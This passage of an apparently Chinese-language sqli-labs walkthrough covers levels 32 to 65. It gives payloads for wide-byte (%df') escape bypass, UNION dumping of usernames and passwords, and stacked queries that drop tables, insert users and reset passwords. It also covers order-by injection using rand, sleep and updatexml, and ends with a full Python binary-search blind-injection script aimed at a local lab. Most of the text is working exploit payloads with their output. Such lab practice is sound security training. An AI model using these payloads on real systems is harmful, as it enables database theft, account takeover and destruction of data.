传入`?id=%df'`返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''�\'' LIMIT 0,1' at line 1`说明成功将`'`逃逸

传入`?id=-1%df' or 1=1%23`正常回显

传入`?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)%23`返回列名,此时由于`'users'`需要用单引号但不能使用宽字节闭合,因此使用16进制代替

传入`?id=-1%df' union select 1,(select group_concat(username) from users),(select group_concat(password) from users)%23`得到用户名和密码

### Less-33

同上

### Less-34

同样是宽字节注入,使用POST传参

传入`uname=a%df' union select (select group_concat(username) from users),(select group_concat(password) from users)%23&passwd=a&submit=Submit`返回用户名和密码

### Less-35

不需要构造闭合

传入`?id=-1 union select 1,(select group_concat(username) from users),(select group_concat(password) from users)%23`返回用户名和密码

### Less-36

题目提示存在`mysql_real_escape_string`

`mysql_real_escape_string()`调用mysql库的函数`mysql_real_escape_string`,在以下字符前添加反斜杠`\x00, \n, \r, \, ', "`和`\x1a`

同样可以使用宽字节注入

传入`?id=-1%df' union select 1,(select group_concat(username) from users),(select group_concat(password) from users)%23`得到用户名和密码

### Less-37

使用POST传参

传入`uname=a%df' union select (select group_concat(username) from users),(select group_concat(password) from users)%23&passwd=a&submit=Submit`返回用户名和密码

## Stacked Injections

>堆叠注入

### Less-38

闭合方式为`'`

传入`?id=-1' or 1=1;create table wdnmd like uesrs;%23`创建新表

传入`?id=-1' or 1=1;drop table wdnmd;%23`删除表


传入`?id=-1' or 1=1;insert into users(id,username,password) values(100,'wdnmd','wdnmd');%23`新建用户


### Less-39

不需要进行闭合,其余步骤同上

### Less-40

闭合方式为`')`,其余步骤同上

### Less-41

同Less-39

### Less-42

1. 同Less-24的二次注入

2. 在password中传入`123'`返回报错信息,password的闭合方式为`'`

在password处填入`1' or 1#`使用万能密码登录

在password处填入`123' or 1=1;insert into users(id,username,password) values(100,'wdnmd','wdnmd');#`新建用户

在password处填入`123' or 1=1;update users set password='asdf' where username='wdnmd';#`修改用户密码


### Less-43

password的闭合方式为`')`,其余步骤同上

### Less-44

password的闭合方式为`'`,但是在测试闭合方式时没有报错信息,其余步骤同上

### Less-45

password的闭合方式为`')`,但是在测试闭合方式时没有报错信息,其余步骤同上

### Less-46

`order by`注入,不需要进行闭合

1. 利用`rand`进行注入

`select * from users order by rand(0);`


`select * from users order by rand(1);`


例如`select * from users order by rand(length(database())=8);`可以根据回显数据排序的方式的不同来判断`database`名称的长度

`select * from users order by rand(ascii(substr((select group_concat(username) from users),1,1))<50);`二分法确定名字

2. 利用`if`进行延时注入

`select * from users order by (if(ascii(substr((select group_concat(username) from users),1,1))>100,1,sleep(0.1)));`

如果`group_concat(username)`的首字母的ascii值大于100,则在正常时间内返回结果,如果不大于100,则会延迟一段时间(该时间并不直接等于`sleep(0.1)`,而是与其查询的数据的条目数量相关,`延迟时间 = sleeptime * number`)

3. 利用`updatexml`等进行报错注入

```sql
mysql> select * from users order by updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~information_schema,c~'
```

### Less-47

`order by`注入,闭合方式为`'`

可以使用`if`进行延时注入,也可以使用`updatexml`等进行报错注入

### Less-48

`order by`注入,不需要进行闭合

可以使用`if`进行延时注入,也可以使用`rand`等进行注入

### Less-49

`order by`注入,闭合方式为`'`

可以使用`if`进行延时注入

### Less-50

`order by`注入,不需要进行闭合,同时也可以使用堆叠注入

可以使用`rand`,`if`,`updatexml`进行注入

### Less-51

`order by`注入,闭合方式为`'`,同时也可以使用堆叠注入

可以使用`if`,`updatexml`进行注入

### Less-52

`order by`注入,不需要进行闭合,同时也可以使用堆叠注入

可以使用`rand`,`if`进行注入

### Less-53

`order by`注入,闭合方式为`'`,同时也可以使用堆叠注入

可以使用`if`,`updatexml`进行注入

## Challenges

### Less-54

在10次测试中获取到密钥

1. 判断闭合方式,得到闭合方式为`'`,同时没有报错信息

2. 判断列数,一共有3列`?id=1' order by 3--%20`

3. `?id=-1' union select 1,2,3--%20`只有`2,3`列正常回显

4. `?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--%20`获取表名

5. `?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='GFTILUL21Y')--%20`获取列名

6. `?id=-1' union select 1,(select group_concat(id) from GFTILUL21Y),(select group_concat(sessid) from GFTILUL21Y)--%20`获取`id`和`sessid`

7. `?id=-1' union select 1,(select group_concat(secret_ZHH9) from GFTILUL21Y),(select group_concat(tryy) from GFTILUL21Y)--%20`获取`secret_ZHH9`和`tryy`


### Less-55

在14次测试中获取到密钥

1. 判断闭合方式,得到闭合方式为`)`,同时没有报错信息

2. 其余方式同上

### Less-56
length(database())=10
在14次测试中获取到密钥

1. 判断闭合方式,得到闭合方式为`')`,同时没有报错信息

2. 其余方式同上

### Less-57

在14次测试中获取到密钥

1. 判断闭合方式,得到闭合方式为`"`,同时没有报错信息

2. 其余方式同上

### Less-58

在5次测试中获取到密钥

1. 判断闭合方式,得到闭合方式为`'`,传入`1'`返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

2. 传入`?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(table_name),1,20) from information_schema.tables where table_schema=database()),0x7e),1)--%20`返回表名

3. 传入`?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(column_name),1,30) from information_schema.columns where table_name='DIJZ7NA09S'),0x7e),1)--%20`返回列名

`select column_name from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema=database())`

4. 传入`?id=1' and updatexml(1,concat(0x7e,(select substr(group_concat(secret_6WHE),1,30) from DIJZ7NA09S),0x7e),1)--%20`得到密钥

### Less-59

在5次测试中获取到密钥

1. 判断闭合方式,得知不需要进行闭合,传入`1'`返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1`

2. 其余同上

### Less-60

在5次测试中获取到密钥

1. 判断闭合方式,传入`?id=1"`,返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1`,可知闭合方式为`")`

2. 其余同上

### Less-61

在5次测试中获取到密钥

1. 判断闭合方式,传入`?id=1'`,返回`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'')) LIMIT 0,1' at line 1`,可知闭合方式为`'))`

2. 其余同上

### Less-62

在130次测试中获取到密钥

1. 判断闭合方式,传入`?id=-1') or 1=1%23`,正常回显,闭合方式为`')`

2. 获取`database`长度,`?id=-1') or length(database())=10%23`

```python
import requests
import time

url = 'http://127.0.0.1/Less-62/'


def get_table_name():
    table_name = ""
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1') or ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,%d,1))>%d-- " % (i, mid)
            r = requests.get(url + payload)
            if "Angelina" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            return table_name
        table_name += chr(mid)


def get_column_name(table_name):
    column_name = ''
    for i in range(11, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1') or ascii(substr((select binary group_concat(column_name) from information_schema.columns where table_name='%s') ,%d,1))>%d-- " % (table_name, i, mid)
            r = requests.get(url + payload)
            if "Angelina" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            return column_name
        column_name += chr(mid)


def get_secret(table_name, column_name):
    secret = ''
    for i in range(1, 100):
        low = 31
        high = 128
        mid = (low + high) // 2
        while high > low:
            payload = "?id=-1') or ascii(substr((select binary group_concat(%s) from %s) ,%d,1))>%d-- " % (column_name, table_name, i, mid)
            r = requests.get(url + payload)
            if "Angelina" in r.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
            time.sleep(0.1)
        if mid == 31:
            return secret
        secret += chr(mid)


table_name = get_table_name()
print(table_name)
column_name = get_column_name(table_name)
print(column_name[:11])
secret = get_secret(table_name, column_name[:11])
print(secret)
```

### Less-63

在130次测试中获取到密钥

1. 判断闭合方式,传入`?id=-1' or 1=1%23`,正常回显,闭合方式为`'`

2. 其余同上

### Less-64

在130次测试中获取到密钥

1. 判断闭合方式,传入`?id=-1)) or 1%23`,正常回显,闭合方式为`))`

2. 其余同上

### Less-65

在130次测试中获取到密钥

1. 判断闭合方式,传入`?id=-1") or 1%23`,正常回显,闭合方式为`")`

2. 其余同上